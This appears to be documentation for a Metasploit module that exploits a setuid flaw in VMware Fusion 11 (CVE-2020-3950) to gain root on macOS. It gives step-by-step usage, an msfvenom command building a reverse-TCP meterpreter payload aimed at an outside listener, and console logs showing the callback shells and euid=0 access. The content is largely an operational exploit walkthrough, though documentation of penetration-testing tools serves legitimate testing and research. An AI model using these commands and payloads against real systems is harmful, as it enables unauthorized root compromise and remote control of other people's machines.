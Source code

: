 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMWare Fusion 11 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMWare USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

VMWare Fusion 11.5.1 is available from [VMWare](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] 'Open VMware USB Arbitrator Service' binary detected
[*] Uploading Payload
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

